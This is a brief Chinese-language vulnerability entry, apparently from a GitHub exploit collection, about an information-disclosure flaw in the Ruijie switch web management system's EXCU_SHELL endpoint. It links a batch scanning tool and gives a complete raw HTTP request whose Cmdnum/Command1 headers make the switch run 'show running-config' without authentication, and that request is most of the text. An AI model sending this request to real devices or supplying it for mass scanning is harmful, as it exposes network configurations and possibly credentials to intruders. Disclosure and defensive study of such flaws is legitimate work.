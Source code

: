 漏洞描述：锐捷交换机 WEB 管理系统 EXCU_SHELL 信息泄露漏洞

批量扫描工具：https://github.com/MzzdToT/HAC_Bored_Writing/tree/main/unauthorized/%E9%94%90%E6%8D%B7%E4%BA%A4%E6%8D%A2%E6%9C%BAWEB%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9FEXCU_SHELL

```
GET /EXCU_SHELL HTTP/1.1

Host: 

User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.2852.74 Safari/537.36

Accept-Encoding: gzip, deflate

Accept: */*

Connection: close

Cmdnum: '1'

Command1: show running-config

Confirm1: n
```

